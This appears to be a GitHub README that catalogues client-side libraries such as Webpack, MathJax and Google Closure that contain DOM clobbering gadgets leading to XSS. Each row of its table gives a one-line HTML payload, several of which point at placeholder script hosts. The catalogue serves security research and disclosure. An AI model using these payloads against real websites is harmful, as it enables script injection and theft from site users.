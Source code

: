# DOM Clobbering Collection

In this repo, we collect a list of client-side libraries that are either vulnerable to HTML injection or contain DOM Clobbering gadgets that lead to severe consequences, e.g., XSS.

## HTML Injection

## DOM Clobbering Gadgets

| Library | Stars | Version | Payloads | Impact | Found By | CVE |
|:-------:|:-----:|:-------:|----------|:------:|:--------:|:---:|
| [AddToAny](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/addtoany.md) | N/A |N/A | ```<img src="https://addtoany.xxx.xxx" name="currentScript">``` | XSS | TheHulk | N/A |
| [doomcaptcha](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/doomcaptcha.md) | 1K |N/A | ```<img name=currentScript label="<script>alert(1)</script>"></img>``` | XSS | TheHulk | N/A |
| [Google Client API](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-client-api.md) | N/A |5BIk7BglYEE | ```<iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe><iframe name="scripts" src=”https://apis.google.com/js/api.js”>alert("GG!")</iframe>``` | XSS | TheHulk | N/A |
| [Google Closure Library](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/google-closure-library.md) | 4.9K |v20230103 | ```<img name="currentScript" src="https://xxx.xxx.xxx/base.js"></img>``` | XSS | TheHulk | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax.md) | 10.1K |2.7.x | ```<a id="MathJax"></a> <a id="MathJax" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | N/A |
| [MathJax](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/mathjax3.md) | 10.1K |3.2.2 | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img> $$\require{tex}$$``` | XSS | TheHulk | N/A |
| [pagefind](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/pagefind.md) | 3.3K |v1.1.0 | ```<img name="currentScript" src="blob:https://xxx.xxx.xxx/ui.js"></img>``` | XSS | TheHulk | N/A |
| [polyfills/webcomponentsjs](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/polyfills.md) | 1.1K |2.8.0 | ```<a id="ShadyDOM"></a><a id="ShadyDOM" name="force"></a><a id="WebComponents"></a><a id="WebComponents" name="root" href="https://xxx.xxx.xxx"></a>``` | XSS | TheHulk | N/A |
| [steal](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/steal.md) | 1.4K |2.3.0 | ```<img name="currentScript" src="https://xxx.xxx.xxx">``` | XSS | TheHulk | N/A |
| [Webpack](https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/webpack.md) | 64.4K |5.x.x | ```<img name="currentScript" src="https://xxx.xxxx.xxx"></img>``` | XSS | TheHulk | CVE-2024-43788 |
